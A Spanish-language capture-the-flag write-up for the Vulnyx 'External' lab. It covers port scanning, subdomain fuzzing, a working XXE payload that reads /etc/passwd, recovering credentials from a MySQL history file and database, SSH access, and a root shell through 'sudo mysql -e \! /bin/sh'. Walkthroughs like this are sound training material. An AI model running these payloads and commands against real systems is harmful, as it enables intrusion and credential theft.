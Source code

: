 # Vulnyx-External

## Escaneo de Red
```bash
arp-scan -I eth0 --localnet
# (IP-victima)  08:00:27:8e:6a:8b       PCS Systemtechnik GmbH
```

## Escaneo de Puertos
```bash
nmap -p- --min-rate 2000 -sS -sC -sV  -n -Pn (IP-victima) -oN nmap
# 22/tcp   abierto  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocolo 2.0)
# 80/tcp   abierto  http    Apache httpd 2.4.56 ((Debian))
# 3306/tcp abierto  mysql   MySQL 5.5.5-10.5.19-MariaDB-0+deb11u2
```

Dentro del puerto 80 encontramos la siguiente pista:
```html
<!--
[Pending Tasks]

configure DNS: ext.nyx
-->
```

Añadimos esto a /etc/hosts para acceder a la web:
```bash
nano /etc/hosts
# (IP-victima)    ext.nyx
```

Hacemos fuzzing a subdominios:
```bash
wfuzz --hc=404,400 --hl=75  -w /usr/share/dnsrecon/subdomains-top1mil-20000.txt -H 'host: FUZZ.ext.nyx' -u (IP-victima)
# "administrator - administrator"
```

Añadimos "administrator.ext.nyx" a /etc/hosts y accedemos a un login:
```bash
nano /etc/hosts
```

Después de interceptar con BurpSuite, encontramos un posible XXE (XML External Entity),(La pista nos la da "<?xml version="1.0" encoding="UTF-8"?>"). Utilizamos payloads de XXE y probamos con éxito.

Fuente: https://github.com/payloadbox/xxe-injection-payload-list

Payload utilizado:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY ent SYSTEM "/../../../../../../etc/passwd"> ]>
<details>
	<email>&ent;</email>
	<password>test</password>
</details>
```

Encontramos el "/etc/passwd". Luego, revisamos el historial de MySQL en "/home/admin/.mysql_history" y encontramos la contraseña de root.

Ingresamos al servidor MySQL:
```bash
mysql -u root -p -h (IP-victima) -P 3306
# Contraseña: r********B
```

Dentro de MySQL:
```sql
show databases;
use admindb
show tables;
select * from credentials
```

Encontramos credenciales de usuario "admin":
- Usuario: admin
- Contraseña: 4**********************3

Ingresamos via SSH:
```bash
ssh admin@(IP-victima)
# Contraseña: 4**********************3
```

Y accedemos como admin.

```bash
sudo -l
# (root) NOPASSWD: /usr/bin/mysql
```

Vemos que podemos ejecutar MySQL como root. Buscamos en GTFObins y encontramos un comando para ejecutar una shell como root.

```bash
sudo mysql -u root -p*********B -e '\! /bin/sh'
# whoami
• root
```

¡Ahora somos root! (:D)
